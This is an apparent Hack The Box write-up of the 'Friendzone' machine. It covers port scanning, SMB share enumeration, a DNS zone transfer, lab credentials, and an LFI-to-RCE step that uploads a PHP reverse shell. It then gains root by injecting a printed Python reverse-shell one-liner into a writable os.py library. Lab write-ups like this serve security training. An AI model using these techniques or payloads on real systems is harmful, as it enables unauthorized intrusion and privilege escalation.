friendzone


nmap

Port 21: running ftp vsftpd 3.0.3
Port 22: running OpenSSH 7.6p1 Ubuntu 4
Port 53: running ISC BIND 9.11.3–1ubuntu1.2 (DNS)
Ports 80 & 443: running Apache httpd 2.4.29
Ports 139 and 145: Samba smbd 4.7.6-Ubuntu
http
we've all been there...feelsbadman
ssl cert
Certifications are always worth looking at to check for useful info about our target, here we see there is a potential email server that ends with friendzone.red
/etc/hosts
lets update /etc/hosts and add both the email portal and the ssl cert portal to our host list
https://friendzoneport.red
https://friendzone.red


https://friendzoneportal.red

nothing interesting... nice gif though

https://friendzone.red

theres a note in the sourcecode:

lets look into this javascript reference in the page source
/js/js


credentials!... but it changes every time

the function is dynamic
lets keep this in mind and enumerate the other services for now
smb
our nmap showed friendzone's smb service was open, lets take a look into that

smbclient -L “//10.10.10.123/”
where -L is host

smbmap
lets enumerate the shares further with smbmapsmbmap -H 10.10.10.123

we have 2 shares we can access here! Development and general, lets smbclient into them
Nothing is stored in this share but its good to make a note that we have read/write privileges here, lets move on

Creds.txt seems very interesting, lets see what it contains

lets use get to grab the file

and check its contents on our machine:

lets save these creds
admin:WORKWORKHhallelujah@#
dig zone xfer
since we see Friendzone's DNS service is running lets see if we can leak any internal more webpages the internal dns server may contain through a zone transfersince we already know about friendzone.red and friendzoneportal.red lets try both
dig axfr @10.10.10.123 friendzone.red

the xfer succeeds and leaks some internal URLs!
hr.friendzone.red
uploads.friendzone.red
administrator1.friendzone.red
dig axfr @10.10.10.123 friendzoneportal.red

the xfer succeeds and leaks some internal URLs!
admin.friendzoneportal.red
files.friendzoneportal.red
imports.friendzoneportal.red
vpn.friendzoneportal.red
update /etc/hosts
lets add all of these results to our etc/hosts file and navigate to themadmin.friendzoneportal.red
files.friendzoneportal.red
imports.friendzoneportal.red
vpn.friendzoneportal.red
administrator1.friendzone.red
hr.friendzone.red
uploads.friendzone.red

administrator1.friendzone.red LFI
admin
WORKWORKHhallelujah@#
creds work here

/dashboard.php
timestamp
dashboard
set the parameter to dashboard and you'll see the page infinitely call itself: this is dangerous since we could potentilaly overwhelm the server with a DOS attack
admin.friendzone.red
creds work but the page doesn't have any functionality for us to take advantage of

uploads.friendzone.red
this site is a little sketchy cause the page returns a successful upload even if you don;t attach a file, its probably incomplete

initial foothold
LFI to RCE test


we can assume Development files get stored in /etc/Development directory since looking back at smbmap File's share is in /etc/Files

https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=/etc/Development/test

php-reverse-shell smb upload to LFI RCE
Lets first grab our php-reverse-shell
move it to our working directory and rename it something simple

set ip and port to our attacking machine

upload/put the reverse shell onto the smb server in the Developent folder because we have Write permissions on it

now run the script via our browser (with our listener running in another tab)
https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=/etc/Development/shell

we have our foothold!

privesc to user friend
first thing I like to do on any box I get a foothold on as an webadmin is navigate the webserver directory which is in /var/www and look around for configuration files that may leak credentials
if we cat the contents of mysql_data.conf we get creds to what seems to be an mySQL server
Agpyu12!0.213$

but if we check /home we see that friend is a user on the box

using su -l friend to switch to user friend works

ssh works as well

privesc to root
lets start our priv esc enumeration off by runing my personal favorite: linux smart enumeration or lse.sh(LinEnum and LinPEAS work great too if that is your preference)
linux smart enum
lets run lse.sh at level 1 and see what we get:


we can see if there's any hints on how to priv esc in friend's mail directory

unfortunately it is empty

not much to work with honestly, lets keep these findings in mind and use some other tools, like a process monitor to check if there's a potential script being called thats not a cron job
procmon.sh
lets run procmon process monitor (written by ippsec) on the box to see what processes are running scheduled tasks on the machine that may not be standard or cron jobs (you can use pspy also)Here is the process monitor for reference


reporter.py runs every couple of minutes, lets take a look at it

reporter.py
This python script is read only and is practically completely commented out, save for the fact thatit calls the os.py library and runs

normally only root would have write access to os.py but linux-smart-enumeration pointed out that we can write to it!


we can hijack the os call by injecting a python backdoor into it so every time reporter.py gets run, it will run our reverse shell with admin privileges
payloadallthethings
another great resource for payloads other than
we'll use this one since os.py is written in python:
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
shell.py & some sed macros

copy and paste the python in the comments


this sed macro takes every semi colon ‘;’ in our revshell and replaces it with a new line ‘\n’

from here we need to do two things, delete the strange ^@ characters and omit the ‘os.’ prefix since we're adding it to our os.py library

os.py
lets add a python reverse shell to our os.py code so it runs whenever the reporter.py script is called by rootbecause the vi editor on friendzone is a little wonky, lets transfer it to our box, and alter it locally

first copy the os.py file from its orginal directory into the Development smb share


then download os.py with get

now we can

now reupload our os.py back into the share with put

and copy it to its original location, from here we just need to open a netcat listener and wait for reporter.py to run os as root



user/root
a9ed20acecd6c5b6b52f474e15ae9a11

b0e6c60b82cf96e9855ac1656a9e90c7
lessons learned
Check out Rana Khalil's OSCP writeups and prep at https://rana-khalil.gitbook.io/hack-the-box-oscp-preparation/